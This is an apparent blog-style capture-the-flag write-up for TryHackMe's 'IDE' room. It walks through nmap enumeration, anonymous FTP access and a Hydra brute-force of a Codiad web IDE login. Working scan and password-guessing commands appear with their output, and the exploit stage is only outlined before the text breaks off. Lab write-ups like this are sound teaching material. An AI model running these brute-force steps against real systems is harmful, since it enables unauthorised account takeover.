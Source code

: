 # IDE  
![ide logo](/imgs/ide_room_logo.png)

IDE, an easy box to polish your enumeration skills!

## Summary
  * Start Machine
  * Find open ports using nmap
  * Access ports discovered
  * Where possible determine version of server software
  * Seek out publicly released known exploits
  * Once local access is achieved, escalate privileges to find the flags

### 1. Nmap enumeration

I used an [**Aggressive**](https://nmap.org/book/vscan-examples.html) scan (the `-A` option), while leaving most settings at their default values hoping to see slightly more verbose version detection. The `-T4` option can be used on the TryHackMe platform since the machines we attack are on a virtual private network using [private addressing space](https://en.wikipedia.org/wiki/Private_network#Private_IPv4_addresses). Tantamount to being on a LAN. In the field I would most likely reduce that to `-T3` or `-T2` to reduce the chance of being detected by an IDS or worse overwhelming a production server, despoiling my probe results.

```console
# Nmap 7.92 scan initiated Sat Nov  6 22:10:06 2021 as: nmap -A -T4 -oA scans/nmap_init ide.thm
Nmap scan report for ide.thm (10.10.64.67)
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.13.21.92
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)

Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   106.56 ms 10.13.0.1
2   ... 3
4   241.81 ms ide.thm (10.10.64.67)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  6 22:10:48 2021 -- 1 IP address (1 host up) scanned in 42.41 seconds
```

I see some standard services:  
* FTP being served by vsFTPd 3.0.3 :: *always good to see version strings when we probe*
* SSH being served up by OpenSSH 7.6p1 :: *Not the most up to date or secure, but not grossly insecure*
* HTTP served up by Apache2 on Ubuntu :: *This turns out to be just the first httpd daemon running on this box*

The first two, FTP and SSH, are relatively stable and secure servers. Further probing by loading up the Apache homepage in a browser gives the appearance this is a distro specific  standard install. Hinted at by `http-title: Apache2 Ubuntu Default Page: It works`

![Default Page](/imgs/screenshot_default_page.png)

In the rush to hack over a web port I neglected a feature of the ftp server `Anonymous FTP login allowed (FTP code 230)` that Nmap revealed. Let's fire up an ftp client and see what's publicly accessible. You never know what secrets got left out in the open.

#### Security through obscurity is **NO SECURITY** at all

A quick bout of Command Line Commando `ftp ide.thm` using credentials of username--> anonymous and leaving password blank drops us in the ftp directory. There we find a directory named `...`
```sh
cd ...
ftp> ls -lA
-rw-r--r--  1 0   0   151 Jun 18 06:11  -
```  
Now that's curious. Inside that oddly named directory is a file named `-` *("dash")*  
Let's grab it and see what's inside  
```txt
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```  
So, we'll keep this in our back pocket for now. A password got reset and instructions to use a **default password** to login somewhere. We also have two prospective users `john` and `drac` to tuck away inside a `user.txt`.

The topic of this room is "Enumeration" so let's look at the ports above the so called **privileged ports** aka higher than 1024  
```nmap
# Nmap 7.92 scan initiated Sat Nov  6 22:22:23 2021 as: nmap -sV -T4 -p 1024- -oN scans/nmap_above1024 ide.thm
Nmap scan report for ide.thm (10.10.64.67)
Host is up (0.24s latency).
Not shown: 64511 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  6 22:31:06 2021 -- 1 IP address (1 host up) scanned in 523.21 seconds
```  
Loading this new url in our browser redirects us to a login page for [Codiad Web IDE](http://codiad.com). From a link to the [Github Repo](https://github.com/Codiad/Codiad) we see it is a web based IDE for code development that has made note it is no longer maintained.  Last commit was *Mar 21, 2020*.  
Capturing a login can be done with a proxy or easier still, using the dev tools in either Firefox or Chrome. In Firefox, what I prefer to use, open up the Network tab in DevTools before logging in so that the exchange is captured in the tool. Log in with credentials we can spot in the captured **POST** request that we'll save to a file for reference in the next step.  Click on the **POST** request in the Network tab, Click on Copy--->Copy Request Headers, paste that into a file. Then Copy-->Copy Post Data and paste that below the headers.  
```text
POST http://ide.thm:62337/components/user/controller.php?action=authenticate HTTP/1.1
Host: ide.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5 --compressed
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Origin: http://ide.thm:62337
Connection: keep-alive
Referer: http://ide.thm:62337/
Cookie: f9c7294bc8f6035df784b56b800b122c=m9k8u4546g47no5uerg3kvjtr3

username=testuser&password=testpass&theme=default&language=en
```  
btw that's what our request looked like on the wire, so to speak, when it got sent over to Apache2.  We know the **Response** returned **JSON** from the headers returned including `Content-Type: application/json`. We now have all we need to attempt to brute-force a password on the Codiad Server on Port 62337

### 2. Hydra Password Enumeration

[Hydra](https://github.com/vanhauser-thc/thc-hydra) is straight forward brute-forcing tool. Tell it the user or users and the password or list of passwords. Beyond that just give it an **IP** and protocol **method** and we're off to the races. For this Codiad server I will include a port number since **http** is usually served on port **80**.  
Command looks something like this  
`hydra -L <PATH TO USERLIST> -P <PATH TO PASSWORDS LIST> protocol-method://<$IP>$URL:<POST DATA>:<FAIL TEXT>`  
Looking for a quick easy win we'll use `probable-v2-top207.txt` from [Seclist](https://github.com/danielmiessler/SecLists) add an `-s $PORT#` since Apache2 is running on a non-standard port. Cram our POST DATA and Error Message in and off we go...
```console
hydra -L user.txt -P /usr/share/seclists/Passwords/probable-v2-top207.txt -s 62337 "http-post-form://ide.thm/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect Username"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-08 14:52:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1035 login tries (l:5/p:207), ~65 tries per task
[DATA] attacking http-post-form://10.10.155.168:62337/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect Username
[62337][http-post-form] host: 10.10.155.168   login: john   password: xxxxxxxx
```  
A few seconds later and we have valid credentials. User *`drac`* did reset the user *`john`* to a **well-known** default password.

### 3. Exploit and get Local Shell Access  
  * Find exploit using *searchsploit* on **Kali**
  * Edit the *sploit* to use our attacking host
  * Setup 3 terminals to implement the *sploit* chosen
  * Get **shell** , Escalate privilege using found credentials
  * Escalate to **SuperUser** and enjoy the ***PWNing***

  {To be continued...}
